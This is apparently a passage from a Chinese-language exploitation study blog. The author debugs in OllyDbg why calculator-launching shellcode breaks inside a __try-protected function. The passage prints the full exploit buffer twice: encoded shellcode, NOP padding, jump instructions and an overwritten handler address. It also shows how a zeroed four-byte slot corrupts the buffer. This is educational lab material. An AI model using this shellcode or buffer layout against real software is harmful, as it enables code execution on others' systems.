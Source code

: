 在测试时，我将作者的shellcode放入OD中调试，可以正常弹窗，而我的弹计算器的则失败了。通过追踪，我发现问题出在test函数的汇编指令上：

![Bildschirmfoto 2018-08-30 um 5.22.32 PM.png]({{ site.url }}/images/0day/ACE04DF87B66F80B93DD16FBCAF2BCD9.png)

我们上节提到。函数在进入第一个`__try`时，会将`cookie + 4`的位置置0，并在出`__try`时将其恢复为-2。依据这些，再结合图中的指令，可以推断出来`ebp - 8`处正是cookie。但是我们还可以看到`ebp - 0x20`的位置上也放了一个cookie与`ebp`异或后的值。关键问题在于，在进入`__try`时，这个位置高4字节的地方竟然也被置0（即图中唯一一行灰色代码）！

它导致我的shellcode从

```c
// 206 calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07\xe2"
"\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86\x5e\x3f"
"\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a\x2c\xe1\xb3"
"\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9\xde\x7f\x79\xa4"
"\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72\x3a\xed\x6c\xb5\x66"
"\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2\x7e\xc0\x4d\x9b\x7f\xb0"
"\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d\xaf\x59\x26\xa4\x66\x23\x7b"
"\x15\x85\x3a\xe8\x3c\x41\x67\xb4\x0e\xe2\x66\x20\xe7\x35\x72\x6e"
"\xa3\xfa\x76\xf8\x75\xa5\xff\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e"
"\x7f\x61\xdd\xdc\xde\x0e\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f"
"\x90\x91\xc2\xfb\xa5\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7"
"\x06\x34\x1f\x3e\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14"
"\xf7\xa2\xc0\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
// 2 nop
"\x90\x90"
// long jmp
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"
// short jmp
"\xEB\xF6\x90\x90"
// addr of call [ebp + 0x30]
"\x0b\x0b\x29\x00"
```

变成了

```c
// 206 calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07\xe2"
"\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86\x5e\x3f"
"\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a\x2c\xe1\xb3"
"\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9\xde\x7f\x79\xa4"
"\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72\x3a\xed\x6c\xb5\x66"
"\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2\x7e\xc0\x4d\x9b\x7f\xb0"
"\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d\xaf\x59\x26\xa4\x66\x23\x7b"
"\x15\x85\x3a\xe8\x3c\x41\x67\xb4\x0e\xe2\x66\x20\xe7\x35\x72\x6e"
"\xa3\xfa\x76\xf8\x75\xa5\xff\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e"
"\x7f\x61\xdd\xdc\xde\x0e\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f"
"\x90\x91\xc2\xfb\xa5\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7"
"\x06\x34\x1f\x3e\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14"
"\xf7\xa2\xc0\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7"
// here !!!
"\x00\x00\x00\x00"
// long jmp
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"
// short jmp
"\xEB\xF6\x90\x90"
// addr of call [ebp + 0x30]
"\x0b\x0b\x29\x00"
```
